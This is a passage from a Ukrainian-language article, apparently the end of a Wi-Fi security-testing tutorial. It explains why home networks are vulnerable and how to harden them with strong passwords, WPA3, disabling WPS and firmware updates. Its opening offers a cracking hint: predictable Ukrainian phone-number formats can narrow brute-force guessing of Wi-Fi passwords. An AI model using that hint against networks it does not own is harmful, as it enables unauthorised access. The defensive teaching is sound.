


Для тестування міцності паролів Wi-Fi багато користувачів покладаються на прості або стандартні паролі, такі як 8-значні числові комбінації. Крім стандартних, багато користувачів використовують свої номери телефонів як паролі Wi-Fi, і вони, у свою чергу, також слідують передбачуваним форматам, особливо в певних регіонах.

Наприклад, український номер телефону, як `0661234567`, `0951234567`, має вже відомий шаблон і може бути використаний для зменшення кількості ітерацій під час тесту на міцність пароля.

### 10. Доступ до мережі

Якщо пароль визначено за короткий час, це є чітким показником поганої безпеки. Ця інформація є цінною для використання сильних, складних паролів для захисту Wi-Fi мереж.

## Наслідки та чому більшість Wi-Fi мереж є небезпечними

### Слабкі паролі

Занадто багато користувачів призначають прості, легко вгадувані паролі. Використання стандартних або поширених паролів робить атаки методом грубої сили успішними.

### Використання застарілих протоколів безпеки

Ті мережі, які все ще використовують WEP або які мають WPA/WPA2, але погано налаштовані, залишаються дуже вразливими до атак. Навіть WPA2 може бути скомпрометований, якщо він не встановлений правильно.

### Відсутність обізнаності користувачів

Користувачі часто не проінформовані щодо безпеки Wi-Fi і тому ніколи не змінюють налаштування за замовчуванням. Типова людина встановить роутер і ніколи не торкнеться його знову, поки він не зламається. Вони не використовують інтегрований веб-інтерфейс, щоб побачити, хто підключений до мережі, що є досить зручною функцією.

### Доступність інструментів тестування

Усі інструменти, використані в цьому посібнику, можна безкоштовно завантажити, і вони дуже доступні. Це означає, що поріг для тестування мережевої безпеки низький, але потенційне зловживання через цей факт набагато більше.

## Захист вашої Wi-Fi мережі

### Використовуйте сильні, складні паролі

Паролі повинні бути довгими і складатися з різноманітних літер, цифр та спеціальних символів.

### Покращіть налаштування безпеки

Використовуйте WPA3, якщо це можливо. Не використовуйте нічого менш захищеного, ніж WPA2 з увімкненим шифруванням AES.

### Вимкніть WPS

WPS може бути активною вразливістю в безпеці. Ми можемо розглянути це в іншій статті, де ми могли б обговорити WPS як потенційну вразливість. Вимкнення цієї функції усуває ще один вектор атаки.

Якщо у вас є роутер TP-LINK, ви можете зробити це:
Перейдіть до панелі адміністратора роутера (зазвичай `192.168.0.1`)

* Увійдіть, використовуючи свої облікові дані
* Натисніть на вкладку `Advanced`
* Натисніть `Wireless` і виберіть `WPS` з меню
* Вимкніть цей параметр


### Оновлення прошивки роутера

Виробники публікують оновлення для виправлення вразливостей. Підтримка прошивки в актуальному стані покращує безпеку.

### Моніторинг підключених пристроїв

Періодично **перевіряйте** і дивіться, які пристрої підключені до вашої мережі, щоб виявити несанкціонований доступ.

### Фішинг


Незалежно від вищезгаданих технічних слабкостей, **фішинг** залишається, мабуть, одним з найбільш стійких та ефективних методів атаки. Фішинг не експлуатує безпосередньо протоколи Wi-Fi, а натомість націлений на користувача для викрадення конфіденційної інформації, такої як паролі або особисті дані. Незалежно від того, наскільки просунеться мережева безпека, фішингові атаки завжди будуть проблемою, оскільки вони покладаються на людську довіру та помилки. Саме тому обізнаність користувачів щодо фішингу є настільки ж важливою, як і будь-який технічний захист. У довгостроковій перспективі навчання користувачів розпізнавати спроби фішингу може виявитися найважливішою стратегією для захисту Wi-Fi мереж.

## Висновок

Той факт, що мережу Wi-Fi можна зламати і отримати до неї доступ так легко, використовуючи широко доступні інструменти, показує серйозний пробіл у безпеці. Фактично, завдяки розумінню цих вразливостей, користувачі усвідомлюють кроки, які вони повинні зробити для захисту своїх мереж: від сильних паролів до оновлених протоколів і тому подібного, до підвищеної пильності щодо несанкціонованого доступу.

## Посилання

* [Офіційна документація Kali Linux](https://www.kali.org/docs/)
* [Документація Aircrack-ng](https://www.aircrack-ng.org/documentation.html)
* [Вікі Hashcat](https://hashcat.net/wiki/)
* [Посібник користувача Wireshark](https://www.wireshark.org/docs/wsug_html_chunked/)